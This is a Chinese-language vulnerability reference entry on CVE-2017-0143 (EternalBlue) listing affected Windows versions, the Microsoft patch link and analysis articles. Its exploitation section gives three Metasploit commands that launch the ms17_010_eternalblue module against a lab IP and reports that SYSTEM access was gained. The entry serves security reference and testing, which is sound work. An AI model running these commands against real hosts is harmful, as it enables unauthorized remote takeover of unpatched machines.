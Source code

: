 ### CVE-2017-0143

#### 描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网。大名鼎鼎的永恒之蓝漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 10          | x86/x64          | 1607    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Vista       | x86/x64          |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143
```

#### 利用方式

直接用msf就行，方便快捷，测试系统Windows 7 SP1 x64

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.128
run
```

![image-20200818114043309](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_1.png?raw=true)

并且权限是system的

![image-20200818114925926](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_2.png?raw=true)


#### 分析文章
- https://www.anquanke.com/post/id/86270
- https://github.com/worawit/MS17-010/blob/master/BUG.txt
- https://yi0934.github.io/2019/04/08/CVE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/ms17-010/
- https://cy2cs.top/2020/08/22/%E3%80%90owva%E3%80%91%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://paper.seebug.org/280/